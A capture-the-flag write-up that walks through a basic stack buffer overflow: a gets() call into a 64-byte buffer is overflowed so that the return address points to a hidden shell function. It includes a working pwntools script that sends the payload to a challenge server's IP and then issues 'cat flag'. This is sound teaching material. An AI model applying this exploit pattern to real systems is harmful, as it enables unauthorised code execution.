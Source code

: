 # Main idea

It is pwn task where we need to send payload that performs buffer overflow attack. We have binary elf file that we can reverse.
# Solution

To reverse the program i used Ghidra.
From decompiled main function we can see:

![](../../attachments/Pasted%20image%2020240115141509.png)

I creates buffer 64 bytes long. And waits our input using `gets()` function. It is usual function for pwn tasks, it is vulnarable for buffer overflow. It means that the function doesnt check the length of the input and overwrites the memory if input more than 64 bytes.

Additionally we can see `shell` function, it is not called in program:

![](../../attachments/Pasted%20image%2020240115141904.png)

But, with buffer overflow we can call it.

Firstly, we need to know what is address of the `shell` function. We can do this with command:

```sh
readelf -s basic-overflow 
```

And we can see the offset(address) of the functions:

![](../../attachments/Pasted%20image%2020240115142101.png)

The `shell`'s adress is `0000000000401136` and now we can write payload that overwrites the memory and calls shell function.

Our first payload:

```sh
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0000000000401136
```

If you try this, buffer would indeed overwrited but the function will not called, because of scepific address handling in stack. We should rewrite address to little endian format:

`\x36\x11\x40\x00\x00\x00\x00\x00`

And if you try to inject payload with memory like above, it will fail because it will not represent like bytes. So use python's pwn library.

```python
import pwn

r = pwn.remote('34.123.15.202', 5000)
# r = pwn.process('./basic-overflow')

# b"A" * (64 + 8) + b"\x00" * 4 + b"\x36\x11\x40"
r.sendline(b"A" * (64 + 8)  + b"\x36\x11\x40\x00\x00\x00\x00\x00")
r.sendline(b"cat flag")
res = r.recvline()

print(res)
```

And boom, get the flag

![](../../attachments/Pasted%20image%2020240115142819.png)
